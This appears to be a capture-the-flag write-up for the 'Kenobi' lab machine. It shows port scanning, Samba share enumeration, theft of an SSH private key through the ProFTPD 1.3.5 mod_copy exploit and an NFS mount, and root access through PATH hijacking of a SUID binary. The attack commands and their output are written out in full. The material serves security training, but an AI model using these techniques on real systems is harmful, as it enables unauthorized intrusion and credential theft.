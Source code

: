 # Kenobi


## Nmap Scan
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         ProFTPD 1.3.5
22/tcp   open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        Apache httpd 2.4.18 ((Ubuntu))
111/tcp  open  rpcbind     2-4 (RPC #100000)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
2049/tcp open  nfs_acl     2-3 (RPC #100227)


## Samba Shares
smb-enum-shares: 
|   account_used: guest
|   \\10.10.174.88\IPC$: 
|     Type: STYPE_IPC_HIDDEN
|     Comment: IPC Service (kenobi server (Samba, Ubuntu))
|     Users: 1
|     Max Users: <unlimited>
|     Path: C:\tmp
|     Anonymous access: READ/WRITE
|     Current user access: READ/WRITE
|   \\10.10.174.88\anonymous: 
|     Type: STYPE_DISKTREE
|     Comment: 
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\home\kenobi\share
|     *Anonymous access: READ/WRITE*
|     Current user access: READ/WRITE
|   \\10.10.174.88\print$: 
|     Type: STYPE_DISKTREE
|     Comment: Printer Drivers
|     Users: 0
|     Max Users: <unlimited>
|     Path: C:\var\lib\samba\printers
|     Anonymous access: <none>
|_    Current user access: <none>


## ProFTP Enumeration
$ nc 10.10.174.88 21
ProFTP verion: 1.3.5

$ searchsploit ProFTPD 1.3.5
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                        |  Path
---------------------------------------------------------------------------------------------------------------------- ---------------------------------
ProFTPd 1.3.5 - 'mod_copy' Command Execution (Metasploit)                                                             | linux/remote/37262.rb
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution                                                                   | linux/remote/36803.py
ProFTPd 1.3.5 - 'mod_copy' Remote Command Execution (2)                                                               | linux/remote/49908.py
ProFTPd 1.3.5 - File Copy                                                                                             | linux/remote/36742.txt
---------------------------------------------------------------------------------------------------------------------- ---------------------------------

ProFTP mod_copy exploit allows copying files and directories on the system using the SITE CPFR/CPTO commands.


## ProFTP Exploitation


```
$ nc 10.10.174.88 21

220 ProFTPD 1.3.5 Server (ProFTPD Default Installation) [10.10.174.88]
SITE CPFR /home/kenobi/.ssh/id_rsa
350 File or directory exists, ready for destination name
SITE CPTO /var/tmp/id_rsa
250 Copy successful
```


$ mkdir NFS; cd NFS
$ sudo mount 10.10.174.88:/var .
$ sudo ssh kenobi@10.10.174.88 -i id_rsa

kenobi@kenobi:~$ cat user.txt 
> d0b0f3f53b6caa532a83915e19224899


## Privledge Escalation


Find SUID files:
```
$ find / -perm -u=s -type f 2>/dev/null
> /sbin/mount.nfs
> /usr/lib/policykit-1/polkit-agent-helper-1
> /usr/lib/dbus-1.0/dbus-daemon-launch-helper
> /usr/lib/snapd/snap-confine
> /usr/lib/eject/dmcrypt-get-device
> /usr/lib/openssh/ssh-keysign
> /usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
> /usr/bin/chfn
> /usr/bin/newgidmap
> /usr/bin/pkexec
> /usr/bin/passwd
> /usr/bin/newuidmap
> /usr/bin/gpasswd
> */usr/bin/menu*
> /usr/bin/sudo
> /usr/bin/chsh
> /usr/bin/at
> /usr/bin/newgrp
> /bin/umount
> /bin/fusermount
> /bin/mount
> /bin/ping
> /bin/su
> /bin/ping6
```

```
kenobi@kenobi:~$ /usr/bin/menu
***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :
```

```
kenobi@kenobi:~$ strings /usr/bin/menu
curl -I localhost
uname -r
ifconfig
```

Since the program runs linux commands without using the full path,
we can manipulate the path to run a shell for us as root

```
kenobi@kenobi:~$ cd /tmp
kenobi@kenobi:/tmp$ echo /bin/sh > curl
kenobi@kenobi:/tmp$ chmod +x curl
kenobi@kenobi:/tmp$ export PATH=/tmp:$PATH
kenobi@kenobi:/tmp$ /usr/bin/menu

***************************************
1. status check
2. kernel version
3. ifconfig
** Enter your choice :1
# id
uid=0(root) gid=1000(kenobi) groups=1000(kenobi),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd),113(lpadmin),114(sambashare)
# cat /root/root.txt
177b3cd8562289f37382721c28381f02
```

